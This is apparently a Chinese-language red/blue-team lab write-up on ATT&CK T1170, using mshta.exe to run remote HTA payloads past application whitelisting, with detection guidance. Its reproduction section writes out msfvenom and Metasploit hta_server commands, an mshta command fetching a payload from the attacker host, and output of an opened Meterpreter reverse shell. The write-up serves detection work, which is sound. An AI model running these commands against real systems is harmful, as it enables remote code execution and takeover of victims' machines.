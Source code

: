 # T1170-win-基于白名单Mshta.exe执行payload

## 来自ATT&CK的描述

Mshta.exe是一个执行微软HTA（HTML应用）的实用程序。HTA文件扩展名为.hta。HTA是独立的应用，使用与InternetExplorer相同的模型和技术来执行，但在浏览器之外执行。

攻击者可能会使用mshta.exe通过受信任的Windows实用程序来代理执行恶意.hta文件和Javascript或VBScript。已知攻击者在最初攻击阶段利用mshta.exe来执行代码的几个例子。

Mshta.exe可通过内联脚本来执行文件：mshtavbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))

也可以直接从URL执行：mshta http[:]//webserver/payload[.]hta

Mshta.exe可绕过不考虑其潜在用途的应用白名单解决方案。由于mshta.exe在InternetExplorer的安全上下文之外执行，因此它还会绕过浏览器安全设置。

## 测试案例

Mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。

说明：Mshta所在路径已被系统添加PATH环境变量中，因此，可直接执行Mshta.exe命令。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 7 默认位置：

C:\Windows\System32\mshta.exe

C:\Windows\SysWOW64\mshta.exe

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f hta-psh -o test5.hta

替换相关信息
```

#### 执行监听

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set lhost 192.168.126.146
msf exploit(windows/misc/hta_server) > set srvhost 192.168.126.146
msf exploit(windows/misc/hta_server) > exploit
```

#### 靶机执行payload

```bash
mshta.exe http://192.168.126.146:8080/Uj6Tcv.hta  #需要安装.net Framework 3.5
```

#### 反弹shell

```bash
msf5 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://192.168.126.146:8080/Uj6Tcv.hta
[*] Server started.
msf5 exploit(windows/misc/hta_server) > [*] 192.168.126.156  hta_server - Delivering Payload
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.156:50232) at 2020-04-14 11:03:33 +0800
```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
事件ID： 4688
进程信息:
新进程 ID:0xb20
新进程名称:C:\Windows\System32\mshta.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x13c
进程命令行:mshta.exe  http://192.168.126.146:8080/Uj6Tcv.hta
```

## 检测规则/思路

通过进程监控来检测和分析mshta.exe的执行和参数。查找在命令行中执行原始或混淆脚本的mshta.exe。比较mshta.exe的近期调用与历史已知合法参数及已执行二进制文件来确定是否有异常和潜在的攻击活动。在mshta.exe调用之前和之后使用的命令参数也可用于确定正在执行的二进制文件的来源和目的。

监控HTA文件的使用。在环境中执行不经常使用的HTA文件是可疑的。

## 参考推荐

MITRE-ATT&CK-T1170:<https://attack.mitre.org/techniques/T1170/>

远控免杀专题(37)-白名单Mshta.exe执行payload:<http://sec.nmask.cn/article_content?a_id=d1a4d20858c9283aef9ef49d2e98352c>
